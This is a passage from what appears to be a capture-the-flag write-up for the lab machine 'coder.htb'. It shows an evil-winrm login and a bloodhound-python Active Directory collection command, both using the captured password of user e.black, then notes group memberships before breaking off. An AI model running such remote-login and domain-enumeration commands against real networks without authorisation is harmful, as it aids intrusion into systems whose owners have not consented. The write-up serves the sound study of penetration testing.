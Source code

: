 ```zsh
evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300
```
# Fully Compromised: Obtaining Root

## AD Tomfoolery: Part Two

----

Now that we have a valid user that can winrm. We can try to farm data for bloodhound using bloodhound.py:
```zsh
bloodhound-python -d coder.htb -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -ns coder.htb -c all --zip
```

![](images/8af86b75-8d32-46e9-9859-e141458e85a1.png)
And we find that Erron Black is a member of PKI admins. Unfortunately, this group does not have any outbound object control.
The `s.blade` user is a member of the software developers group and the `BUILDAGENT MGMT` group (see the image below):
